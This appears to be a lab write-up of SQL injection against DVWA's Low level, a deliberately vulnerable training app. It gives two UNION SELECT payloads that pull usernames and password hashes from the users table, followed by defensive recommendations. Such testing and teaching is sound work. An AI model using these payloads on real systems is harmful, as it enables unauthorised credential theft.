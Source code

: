 # SQL Injection – Level: Low

## 🔍 Extended Payload Used

```
1 UNION SELECT user, password FROM users LIMIT 1,1
1 UNION SELECT user, password FROM users LIMIT 2,1
```

## ✅ Result

- **ID:** `1 UNION SELECT user, password FROM users LIMIT 1,1 1 UNION SELECT user, password FROM users LIMIT 2,1`
- **First name:** `admin`
- **Surname:** `admin`
- **No error appeared**, and the injection successfully displayed credentials from the `users` table.

## 🖼️ Screenshots

### Screenshot 1 – Single record output:
![SQLI-1](./screenshot/SQLI-1.png)

### Screenshot 2 – HTML structure of output:
![SQLI-2](./screenshot/SQLI-2.png)

## 🛠️ Recommendation

To prevent SQL injection on this level, it's recommended to:

- Use **prepared statements** with bound parameters (e.g., `mysqli_prepare()` or `PDO::prepare()` in PHP).
- Implement **server-side input validation** and type checking.
- Use **least privilege** for DB users.
- **Disable detailed SQL errors** in production environments.
- Apply **Web Application Firewall (WAF)** for extra protection.

## 👤 Tester

**Name:** Tetiana Trunova  
**Platform:** DVWA – SQL Injection (Low)  
**Environment:**  
- Kali Linux (Attacker)  
- Ubuntu (DVWA Target)  
- Browser DevTools used for inspection

## 🧩 Conclusion

The SQL Injection vulnerability on Low level allowed direct injection of arbitrary SQL via the `id` parameter. Using the `UNION SELECT` technique and adjusting the column count, we successfully extracted usernames and hashed passwords from the `users` table. This highlights the critical risk of unsanitized input and reinforces the importance of using parameterized queries and secure development practices.
